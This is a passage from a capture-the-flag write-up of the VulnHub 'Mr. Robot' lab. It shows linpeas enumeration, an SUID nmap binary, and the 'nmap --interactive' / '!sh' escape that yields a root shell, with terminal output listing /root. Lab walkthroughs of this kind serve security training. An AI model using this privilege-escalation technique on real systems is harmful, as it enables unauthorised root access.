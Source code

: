 ### Road to `root`

I executed [linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to look for possible ways to get `root`. 

Surprisingly, there is `nmap` among the SUID binaries: 

![nmap SUID](/assets/img/vulnhub/linux/mr-robot/nmap.png)

We can check on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) how we can perform a privesc:

![nmap interactive shell](/assets/img/vulnhub/linux/mr-robot/nmap-shell.png)

And we are root:

```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
```